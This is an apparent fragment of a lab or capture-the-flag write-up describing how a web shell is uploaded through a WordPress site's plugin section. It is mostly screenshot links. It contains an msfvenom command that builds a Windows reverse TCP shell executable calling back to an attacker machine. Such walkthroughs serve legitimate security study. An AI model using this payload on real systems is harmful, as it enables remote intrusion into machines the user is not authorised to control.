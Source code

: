 ![](Pasted%20image%2020221108011438.png)



---

# Exploitation
## Upload Web Shell to Wordpress site plugins section


#### -Clicked "add new":

![](Pasted%20image%2020221108095524.png)

#### -Typed "msfvenom -p windows/shell_reverse_tcp LHOST=[kali IP] LPORT=445 -f exe > reverse.exe" to create the reverse shell payload on my kali machine:

![](Pasted%20image%2020221108095611.png)
